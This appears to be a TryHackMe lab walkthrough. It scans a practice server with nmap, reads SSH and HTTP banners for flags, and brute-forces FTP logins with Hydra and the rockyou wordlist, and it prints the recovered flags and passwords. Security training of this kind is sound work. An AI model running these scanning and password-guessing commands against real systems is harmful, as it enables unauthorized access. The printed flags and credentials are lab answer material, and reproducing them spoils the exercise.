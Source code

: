# TryHackMe - FTP & Banner Enumeration Room  
🎯 Objective: Enumerate services, identify banners/headers for flags, brute-force FTP login credentials, and access the server.

---

## 🖥️ Target Information

| Property       | Value                             |
|----------------|-----------------------------------|
| IP Address     | 10.10.5.125                       |
| Services       | SSH (22), HTTP (80), Samba (139/445), Node.js (8080), FTP (10021) |
| OS             | Ubuntu (inferred)                 |
| FTP Server     | vsftpd 3.0.5 (on port 10021)      |
| Web Server     | lighttpd                          |
| SSH Server     | OpenSSH_8.2p1                     |

---

## 🔍 1. Service Enumeration

### 🔧 Nmap Full Port Scan
```bash
nmap -sV -p- 10.10.5.125
```

### 🔧 Nmap Script for HTTP Headers
```bash
nmap -p 80 --script http-headers 10.10.5.125
```

Response:
- Header flag found:
```
Server: lighttpd THM{web_server_25352}
```

---

### 🔧 Nmap Script for SSH Banner
```bash
nmap -p 22 --script banner 10.10.5.125
```

Response:
```
SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
```

✅ Both banners contained THM flags.

---

## 🔐 2. FTP Login Brute Force (Port 10021)

### Attempt login for user `eddie`
```bash
hydra -l eddie -P /usr/share/wordlists/rockyou.txt -f -s 10021 ftp://10.10.5.125
```

✅ Credentials found:
- User: `eddie`
- Password: `jordan`

### Attempt login for user `quinn`
```bash
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -f -s 10021 ftp://10.10.5.125
```

✅ Credentials found:
- User: `quinn`
- Password: `andrea`

---

## 📂 3. FTP Access

```bash
ftp 10.10.5.125 10021
# Login with:
# Username: eddie
# Password: jordan
```

または：
```bash
ftp 10.10.5.125 10021
# Username: quinn
# Password: andrea
```

Use commands:
```bash
ls
get filename
```

---

## ✅ Summary

| Phase               | Status                        |
|--------------------|-------------------------------|
| Service Enumeration | ✅ Nmap + banner/header        |
| Flag Discovery      | ✅ SSH and HTTP headers        |
| FTP Brute Force     | ✅ eddie: `jordan`, quinn: `andrea` |
| FTP Access          | ✅ Successfully logged in      |

Next Steps: Explore FTP contents, check file upload possibilities, or investigate Node.js app on port 8080.
